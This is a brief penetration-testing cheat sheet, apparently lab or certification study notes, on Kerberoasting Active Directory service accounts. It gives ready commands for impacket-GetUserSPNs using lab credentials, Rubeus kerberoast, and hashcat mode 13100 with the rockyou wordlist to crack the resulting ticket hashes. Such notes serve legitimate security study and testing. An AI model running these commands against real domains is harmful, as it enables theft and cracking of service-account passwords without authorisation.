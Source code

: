 # Kerberoasting

The service ticket is encrypted using the SPN's password hash. If we can request the ticket and decrypt it using brute force or guessing, we can use this information to crack the cleartext password of the service account. This technique is known as [_Kerberoasting_](https://blog.harmj0y.net/redteaming/kerberoasting-revisited/).

## Linux

Enumerates SPN accounts:

{% code overflow="wrap" %}
```sh
sudo impacket-GetUserSPNs hutch.offsec/fmcsorley:CrabSharkJellyfish192 -dc-ip 192.168.219.122
```
{% endcode %}

* `hutch.offsec/fmcsorley:CrabSharkJellyfish192`\
  The domain, username, and password used to authenticate to the domain controller.
* `-dc-ip 192.168.219.122`\
  Specifies the IP address of the domain controller to query.

Request TGS and output hashes for cracking (perform Kerberoasting on Linux):

{% code overflow="wrap" %}
```sh
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```
{% endcode %}

* &#x20;**-dc-ip:** IP of the domain controller
* **-request:** obtain the TGS and output them in a compatible format for Hashcat

## Windows

Kerberoasting using Rubeus:

```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

* **kerberoast:** launch kerberoasting technique&#x20;
* **/outfile:** file to store the resulting TGS-REP hash

As we execute Rubeus as an **authenticated domain user**, the tool will identify all SPNs linked with a domain user.

Copy **hashes.kerberoast** to kali machine for cracking

## Crack the hash

Identify hash mode for hashcat:

```sh
hashcat --help | grep -i "Kerberos"
```

Crack the hash:&#x20;

{% code overflow="wrap" %}
```sh
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}



